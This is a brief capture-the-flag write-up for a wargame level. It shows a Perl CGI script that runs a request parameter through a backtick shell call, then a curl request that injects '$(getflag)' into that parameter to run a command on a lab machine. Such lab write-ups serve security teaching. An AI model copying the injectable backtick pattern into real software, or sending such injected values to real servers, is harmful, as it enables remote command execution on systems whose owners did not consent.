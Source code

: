 FILE: level04.pl

```sh
$: cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

**we have a pearl script who execute echo with the first argument**
**since echo is betwen \`\` we can make it execute the getflag command**

**\$\(\) to send the result of getflag and \`\` so curl doesn't execute getflag but echo do**

```sh
$: curl '192.168.56.101:4747?x=$(getflag)'
******flag******
```
